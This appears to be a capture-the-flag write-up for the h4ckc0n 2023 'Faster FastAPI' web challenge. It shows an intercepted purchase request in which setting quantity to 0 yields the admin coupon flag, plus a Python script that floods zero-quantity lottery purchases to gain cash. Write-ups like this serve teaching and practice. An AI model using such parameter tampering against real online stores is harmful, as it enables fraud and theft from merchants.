 ```yaml
---
title: h4ckc0n 2023 - Faster FastAPI
date: Sun Aug 27 08:23:58 PM +04 2023
categories: [Writeup]
tags: [ctf,h4ckc0n,h4ckc0n2023,web]
---
```


## Description

I wanted to get an ECommerce Portal. A dev on Upwork said that he will build it using FastAPI in Python. I have read that Python is very slow, but he assured me that he can make python super fast using some tricks that he know. Honestly, I don't trust this guy. Can you test the site for any bugs or vulnerabilities? I will pay you for your time by giving you a free access to the admin lounge. Just give me the coupon code for that.

Flag format: `d4rk{..}c0d3` / `d4rk{..}c0de` both accepted

[http://64.227.131.98:40000/](http://64.227.131.98:40000/)

## Solution

Application:

![fasterapi-1](/assets/images/h4ckc0n/2023/fasterapi-1.png)

You have 2 choices, buy normal coupon or buy admin coupon (flag). I fired up the BurpSuite and intercepted buy request.

```r
POST /api/buy?token=c8ruvf HTTP/1.1
Host: 64.227.131.98:40000
Content-Length: 42
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://64.227.131.98:40000
Referer: http://64.227.131.98:40000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

[{"item_id":"lounge_coupon","quantity":1}]
```

What happens if we change `quantity` to 0?

```html
You bought a lounge coupon! Code: d4rk{cyth0n_1s_f4st_but_r1sky}c0d3
```

> Flag: d4rk{cyth0n_1s_f4st_but_r1sky}c0d3
{: .prompt-tip }

### Unintended Solution

If you buy normal ticket json data looks like:

```json
[
    {
        "item_id": "lottery_coupon",
        "quantity": 1,
        "lucky_number": 321156
    }
]
```

It's not an object, but list of objects which I found amusing.

Just like in [Jerry & Marge Go Large](https://youtu.be/nzW6Jy2F3mw)<br>
1. Find a loophole
2. Exploit the loophole

Loophole in our case is to change `quantity` to 0, meaning we buy winning coupon at no cost. The exploit is similar to the story, just buy tons of tickets and you'll eventually cash out.

```py
import requests

URL = 'http://64.227.131.98:40000/api/buy'
TOKEN = {'token': 'e2yjy'} # Your Token (Cookie)
 
# Get Cash
payload = [ #                    Important                Pick A Number
    {"item_id":"lottery_coupon","quantity":0,"lucky_number":1002}
    for _ in range(10_000)
]
resp = requests.post(URL, params=TOKEN, json=payload)

# Get Flag
payload = [{"item_id":"lounge_coupon","quantity":1}]
resp = requests.post(URL, params=TOKEN, json=payload)
print(resp.text)
```

I think the scenario would have been valid if you couldnt pass `quantity` to buy the flag.